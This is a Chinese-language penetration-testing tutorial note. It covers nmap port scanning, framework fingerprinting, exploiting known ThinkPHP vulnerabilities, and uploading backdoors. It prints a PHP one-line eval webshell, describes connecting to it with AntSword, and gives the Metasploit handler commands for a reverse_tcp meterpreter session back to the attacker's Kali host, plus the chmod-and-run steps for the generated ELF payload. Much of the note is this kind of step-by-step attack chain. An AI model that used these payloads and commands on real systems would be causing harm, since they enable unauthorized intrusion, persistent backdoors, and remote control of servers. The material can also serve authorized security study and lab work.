

## 快速识别网站

### 扫端口

如：快扫网关已开启的端口

*：快扫并不完整，只扫常用端口

8080端口启用，代表可能存在网站服务

![image-20220801173105133](2_Nmap.assets/image-20220801173105133.png)



Kali中的Nmap只能使用命令行，常用命令：

```
nmap -sT -T4 [ipAddress]
```

> -s: Scan
>
> T: TCP
>
> -T Time	# 控制时间
>
> 4				# 扫描速度(0-5 数字越大越快)



同类工具：御剑端口扫描工具



### 看开发框架

> 通常存在于页面末端或网站图标或F12里



### 搜索历史漏洞并利用

如：thinkphp

![image-20220801174548963](2_Nmap.assets/image-20220801174548963.png)



### 上传后门

例1：

![image-20220801190619947](2_Nmap.assets/image-20220801190619947.png)

例2：

![image-20220801190633220](2_Nmap.assets/image-20220801190633220.png)

### Webshell

Ex：一句话木马

```php
<?php eval($_POST[ccc];)?>
```



常用工具：中国蚁剑、菜刀、哥斯拉、冰蝎

**蚁剑为例**：

仓库：[AntSwordProject (github.com)](https://github.com/AntSwordProject)

文档：[AntSword 文档 · 语雀 (yuque.com)](https://www.yuque.com/antswordproject/antsword)



![image-20220803171818174](2_Nmap.assets/image-20220803171818174.png)



连接成功后即可进行GetShell等操作

![image-20220803174708439](2_Nmap.assets/image-20220803174708439.png)

**利用Metesploit进行攻击**

生成后门

*：Linux的可执行文件格式为elf，故-f 为 elf

![image-20220803175456903](2_Nmap.assets/image-20220803175456903.png)



将后门Copy到服务器后，msfconsole开启监听

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost [kali_IP]
set lport [10000]
run
```



回到蚁剑，打开服务器Terminal，更改生成的elf文件的权限为可执行，并运行文件

```
chmod 777 demo10000.elf
./demo10000.elf
```



此时正在监听的kali便能get到更高权限的shell













